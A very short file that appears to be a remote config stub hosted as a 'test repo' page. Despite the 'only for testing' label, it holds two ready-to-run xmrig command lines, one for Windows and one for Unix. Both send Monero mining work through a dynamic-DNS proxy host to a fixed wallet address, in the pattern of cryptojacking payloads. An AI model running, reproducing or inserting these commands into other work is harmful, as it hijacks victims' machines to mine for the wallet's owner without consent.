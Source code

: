 # testrepo_dc5fd69b6b1e91ccdec88a4.html
only for testing
info1=xmrig.exe -o proxy-60333.mywire.org:60333 -i 5 -u 89mqqbXpWiNVgn27J6AMCKThLMomCHZRDAoS6i7k68iWLCKkMqtJkCaHUyrV9swetaVgViN5a2SYPKwJYC53G9844yRbuXe -p x -k --coin monero -a rx/0



info2=./xmrig -o proxy-60333.mywire.org:60333 -i 5 -u 89mqqbXpWiNVgn27J6AMCKThLMomCHZRDAoS6i7k68iWLCKkMqtJkCaHUyrV9swetaVgViN5a2SYPKwJYC53G9844yRbuXe -p x -k --coin monero -a rx/0
